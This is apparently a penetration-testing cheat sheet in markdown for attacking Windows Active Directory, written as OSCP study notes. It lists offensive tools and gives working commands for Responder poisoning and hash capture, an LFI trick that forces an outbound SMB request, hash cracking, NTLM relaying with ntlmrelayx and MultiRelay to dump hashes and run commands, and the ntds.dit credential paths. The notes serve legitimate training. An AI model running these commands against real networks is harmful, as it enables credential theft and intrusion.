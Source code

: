 # Active Directory  
AD Overview and tools.   
## Contents 
- [Active Directory](#active-directory)
  * [Contents](#contents)
  * [Active Directory Overview](#active-directory-overview)
  * [My AD Cheatsheets](#my-ad-cheatsheets)
  * [Other Cheat Sheets](#other-cheat-sheets)
  * [References](#references)
    + [Important Files to Check on the DC](#important-files-to-check-on-the-dc)
  * [Tools](#tools)
  * [General Tools](#general-tools)
  * [Responder](#responder)   
  
## Active Directory Overview 
To gain control over a domain:  
Compromise member of Domain Admin group.   
Compromise domain controller -> can modify all domain-joined computers or execute applications on them. 

AD: depends on DNS server, typical DC hosts DNS server that is authoritative for a given domain.    
Account types: domain admins, service accounts (can be domain admins), local admins (can't access the DC), domain users.     
Authentication mechanisms: Kerberos (uses ticket granting tickets and services to authenticate users) or NTLM (traditional Windows authentication).     
Kerberos: default authentication service that uses ticket-granting tickets and service tickets to authenticate users and give users access to other resources across the domain. Intended to be more secure than NTLM (uses 3rd party ticket authorization and stronger encryption).      
[PayloadAllTheThings - Most Common Paths to AD Compromise](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)       
Typical AD pen test:
- Exploit host on domain and gain access  as a domain user 
- Enumerate domain users and groups.  
- Privilege escalate or move laterally. 
- Get Domain Admin or Service Account access and onto the domain controller.     

Common Ways to Get AD Creds:    
- NTLM Authenticated Services  
- LDAP Bind Credentials    
- Authentication Relays      
- Microsoft Deployment Toolkit   
- Configuration Files       

## My AD Cheatsheets
[Attacks](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/Attacks.md)        
[Lateral Movement](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/LateralMovement.md)   

 
## Other Cheat Sheets
[AD Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)     
[AD Lateral Movement and Persistence Cheatsheet](https://bhanusnotes.blogspot.com/2020/12/ad-pentest-lateral-movement-persistance.html)  
[AD Cheat sheet](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)   
[Pentesting AD CheatSheet](https://i.ibb.co/TKYNCNP/Pentest-ad.png)  
[Integratio IT Cheat Sheet](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet)  

## References      
[WADComs](https://wadcoms.github.io/)    
    
### Important Files to Check on the DC
    %SYSTEMROOT%\System32\ntds.dit             #AD database with user password hashes   
    %SYSTEMROOT%\NTDS\ntds.dit                 #AD backup

## Tools   
C2 Frameworks:
[PowerShell Empire](https://github.com/BC-SECURITY/Empire), Covenant    
[evil-winrm](https://github.com/nubix/evil-winrm): access Windows RM, TCP port 5985 or 5986 open.   
Responder (Spoofing is not allowed in the labs or on the exam)   
Crackmapexec  
[BloodHound](https://github.com/BloodHoundAD/BloodHound), [SharpHound](https://github.com/BloodHoundAD/SharpHound) 
Rubeus   
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 )   
[Mimikatz](https://github.com/gentilkiwi/mimikatz), [Mimikatz Cheatsheet](https://offsec.red/mimikatz-cheat-sheet/)      

## General Tools 
[Impacket](https://github.com/SecureAuthCorp/impacket): collection on Python classes for working with network protocols.       

    #if not properly installed 
    apt install impacket-scripts  
    /usr/share/doc/python3-impacket/examples  
    
[ADSC-Pwn](https://github.com/bats3c/ADCSPwn)   

## Responder 
Not allowed on the OSCP exam, but a common pen testing tool.                
Allows you to spoof various services then capture hashes from devices that try to authenticate to those.  
Common use: poison responses during NetNTLM authentication to capture credentials. Might be able to relay the challenge instead of just capturing it (if SMB signing is not enforced). Ref: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html       
  
Install:   

    git clone https://github.com/lgandx/Responder   
 Responder Usage:   
 Config file: edit responder.conf to disable SMB / HTTP servers, change RespondTo arguement to target a specific host     

     sudo responder.py -I eth0   #start on specified interface. Hashes will be captured when a device tries to authenticate to resources on the network.               
     sudo responder.py -I eth0 -A    #analyze / listen mode, no active poisoning    
    
You might be able to use a LFI vulnerability to request a resource and capture a hash using Responder. Ex - http://site.com/?page=//10.10.14.25/somefile           
Captured hashes will be stored in the logs folder, in a .txt file named for the protocol hash type and IP captured from.      

    username::domain:ServerChallenge:NTproofstring:modifiedntlmv2response   #NTLMv2 Responder capture format       
### Crack Hashes from Responder     

    john hashes.txt   #John the Ripper will automatically detect the format of hashes collected by Responder.    
    hashcat -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    hashcat -m 5600   #NTLMv2 (hashes captured from using a tool like Responder)   

### NTLM Relay Attack       
Use NTLMRelay or MultiRelay to relay the credentials to any SMB server which has SMB signing disabled (can't relay the creds back to the source computer unless you are relaying them to a different service). Windows workstations have SMB signing disabled by default.          
[byt3bl33d3r Guide to NTLM Relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)    
Recon: RunFinger.py or Crackmapexec to identify hosts, OS and SMB info. Check if SMB signing is not enabled and you can perform a relay attack:                    
 
    /opt/Responder/tools $ python3 RunFinger.py -i 172.16.1.1/24       
    crackmapexec smb --gen-relay-list smb_targets.txt 192.168.1.0/24

[NTLMRelay - Impacket Script](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
You might need to disable the SMB or HTTP servers used by Responder to avoid conflicts.    

    sudo python3 ntlmrelayx.py -tf targets -smb2support     
    ntlmrelayx.py -socks -smb2support -tf smb_targets.txt     
[MultiRelay - Built into the Responder Toolkit](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)     

    /opt/Responder/tools $ python3 MultiRelay.py -t 172.16.1.5 -u ALL -d    #Relay auth requests for all users, dump local account hashes   
    /opt/Responder/tools $ python3 MultiRelay.py -t 10.10.10.10 -c "whoami"   #exec a command    
    #can spawn a Meterpreter shell using exploit/multi/script/web_delivery using a PowerShell IEX command        
